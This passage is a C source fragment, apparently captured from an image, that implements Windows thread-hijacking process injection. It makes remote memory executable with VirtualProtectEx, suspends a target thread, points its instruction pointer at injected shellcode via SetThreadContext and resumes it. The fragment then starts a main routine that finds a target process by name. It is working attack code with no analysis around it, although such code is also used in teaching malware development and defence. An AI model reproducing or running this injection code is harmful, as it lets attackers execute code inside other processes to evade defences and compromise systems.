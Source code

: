 ```c

	if (!VirtualProtectEx(hProcess, *ppAddress, sSizeOfShellcode, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
		printf("\t[!] VirtualProtectEx Failed With Error : %d \n", GetLastError());
		return FALSE;
	}


	return TRUE;
}

BOOL HijackThread(HANDLE hThread, PVOID pAddress) {

	CONTEXT		ThreadCtx = {
							.ContextFlags = CONTEXT_ALL
	};

	SuspendThread(hThread);

	if (!GetThreadContext(hThread, &ThreadCtx)) {
		printf("\t[!] GetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	ThreadCtx.Rip = pAddress;

	if (!SetThreadContext(hThread, &ThreadCtx)) {
		printf("\t[!] SetThreadContext Failed With Error : %d \n", GetLastError());
		return FALSE;
	}

	printf("\t[#] Press <Enter> To Run ... ");
	getchar();

	ResumeThread(hThread);

	WaitForSingleObject(hThread, INFINITE);

	return TRUE;
}




int wmain(int argc, wchar_t* argv[]) {

	HANDLE		hProcess = NULL,
		hThread = NULL;

	DWORD		dwProcessId = NULL,
		dwThreadId = NULL;

	PVOID		pAddress = NULL;



	if (argc < 2) {
		wprintf(L"[!] Usage : \"%s\" <Process Name> \n", argv[0]);
		return -1;
	}


	wprintf(L"[i] Searching For Process Id Of \"%s\" ... \n", argv[1]);
```